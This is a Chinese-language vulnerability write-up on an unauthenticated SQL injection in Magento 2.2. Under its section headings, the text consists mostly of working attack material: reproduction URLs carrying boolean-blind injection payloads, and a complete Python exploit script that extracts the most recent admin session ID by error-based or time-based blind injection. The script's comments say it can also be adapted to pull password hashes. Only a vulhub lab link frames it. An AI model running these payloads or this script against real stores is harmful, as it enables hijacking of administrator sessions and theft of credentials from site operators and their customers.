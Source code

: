 Magento 2.2 SQL注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Magento 2.2

三、复现过程
------------

    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![2.png](./.resource/Magento2.2SQL注入漏洞/media/rId24.png)![3.png](./.resource/Magento2.2SQL注入漏洞/media/rId25.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用POC，可以读取管理员的session：

![4.png](./.resource/Magento2.2SQL注入漏洞/media/rId26.png)

    #!/usr/bin/env python3
    # Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
    # Charles Fol
    # 2019-03-22
    #
    # SOURCE & SINK
    # The sink (from-to SQL condition) has been present from Magento 1.x onwards.
    # The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
    # If your target runs Magento < 2.2.0, you need to find another source.
    #
    # SQL INJECTION
    # The exploit can easily be modified to obtain other stuff from the DB, for
    # instance admin/user password hashes.
    #

    import requests
    import string
    import binascii
    import re
    import random
    import time
    import sys
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

    def run(url):
        sqli = SQLInjection(url)

        try:
            sqli.find_test_method()
            sid = sqli.get_most_recent_session()
        except ExploitError as e:
            print('Error: %s' % e)


    def random_string(n=8):
        return ''.join(random.choice(string.ascii_letters) for _ in range(n))


    class ExploitError(Exception):
        pass


    class Browser:
        """Basic browser functionality along w/ URLs and payloads.
        """
        PROXY = None

        def __init__(self, URL):
            self.URL = URL
            self.s = requests.Session()
            self.s.verify = False
            if self.PROXY:
                self.s.proxies = {
                    'http': self.PROXY,
                    'https': self.PROXY,
                }


    class SQLInjection(Browser):
        """SQL injection stuff.
        """

        def encode(self, string):
            return '0x' + binascii.b2a_hex(string.encode()).decode()

        def find_test_method(self):
            """Tries to inject using an error-based technique, or falls back to timebased.
            """
            for test_method in (self.test_error, self.test_timebased):
                if test_method('123=123') and not test_method('123=124'):
                    self.test = test_method
                    break
            else:
                raise ExploitError('Test SQL injections failed, not vulnerable ?')

        def test_timebased(self, condition):
            """Runs a test. A valid condition results in a sleep of 1 second.
            """
            payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            return r.elapsed.total_seconds() > 1

        def test_error(self, condition):
            """Runs a test. An invalid condition results in an SQL error.
            """
            payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            if r.status_code not in (200, 400):
                raise ExploitError(
                    'SQL injection does not yield a correct HTTP response'
                )
            return r.status_code == 400

        def word(self, name, sql, size=None, charset=None):
            """Dichotomically obtains a value.
            """
            pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
            full = ''

            check = False
            
            if size is None:
                # Yeah whatever
                size_size = self.word(
                    name,
                    'LENGTH(LENGTH(%s))' % sql,
                    size=1,
                    charset=string.digits
                )
                size = self.word(
                    name,
                    'LENGTH(%s)' % sql,
                    size=int(size_size),
                    charset=string.digits
                )
                size = int(size)

            print("%s: %s" % (name, full), end='\r')

            for p in range(size):
                c = charset
                
                while len(c) > 1:
                    middle = len(c) // 2
                    h0, h1 = c[:middle], c[middle:]
                    condition = pattern % (sql, p+1, self.encode(h0))
                    c = h1 if self.test(condition) else h0

                full += c
                print("%s: %s" % (name, full), end='\r')

            print(' ' * len("%s: %s" % (name, full)), end='\r')

            return full

        def get_most_recent_session(self):
            """Grabs the last created session. We don't need special privileges aside from creating a product so any session
            should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
            backend.
            """
            # This is the default admin session timeout
            session_timeout = 900
            query = (
                'SELECT %%s FROM admin_user_session '
                'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
                'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
            ) % session_timeout

            # Check if a session is available

            available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
            
            if not available:
                raise ExploitError('No session is available')
            print('An admin session is available !')

            # Fetch it

            sid = self.word(
                'Session ID',
                query % 'session_id',
                charset=string.ascii_lowercase + string.digits,
                size=26
            )
            print('Session ID: %s' % sid)
            return sid

    run(sys.argv[1])

参考链接
--------

> https://vulhub.org/\#/environments/magento/2.2-sqli/
